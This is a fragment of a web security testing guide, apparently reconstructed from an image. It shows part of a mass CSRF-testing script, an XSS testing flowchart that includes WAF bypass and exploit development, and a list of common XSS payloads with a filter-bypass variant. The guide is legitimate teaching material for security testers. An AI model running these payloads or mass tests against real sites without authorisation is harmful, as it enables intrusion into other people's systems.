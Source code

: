 ```python
    test_suite = CSRFTestSuite(targets)
    mass_results = test_suite.run_mass_csrf_testing()
    
    print(f"\nMass CSRF Testing Results:")
    print(f"Targets tested: {mass_results['total_targets_tested']}")
    print(f"Vulnerable targets: {mass_results['vulnerable_targets']}")
    print(f"Total vulnerabilities: {mass_results['total_vulnerabilities']}")
```
    B --> C[Test Basic Payloads]
    C --> D{Payload Executed?}
    D -->|Yes| E[Confirm XSS Vulnerability]
    D -->|No| F[Try Advanced Payloads]
    F --> G{WAF/Filter Present?}
    G -->|Yes| H[Bypass Techniques]
    G -->|No| I[Test Different Contexts]
    H --> J{Bypass Successful?}
    J -->|Yes| E
    J -->|No| K[Document Findings]
    I --> L{Context Vulnerable?}
    L -->|Yes| E
    L -->|No| K
    E --> M[Exploit Development]
    M --> N[Impact Assessment]
    N --> O[Report Generation]
    K --> O
```

### Common XSS Payloads

```javascript
// Basic XSS
<script>alert('XSS')</script>

// Event-based XSS
<img src=x onerror=alert('XSS')>

// JavaScript URL
javascript:alert('XSS')

// SVG XSS
<svg onload=alert('XSS')>

// Bypass Filters
<ScRiPt>alert('XSS')</ScRiPt>
```

### XSS Testing Methodology

1. **Input Identification**
   - Form fields
   - URL parameters
   - HTTP headers
   - Cookie values
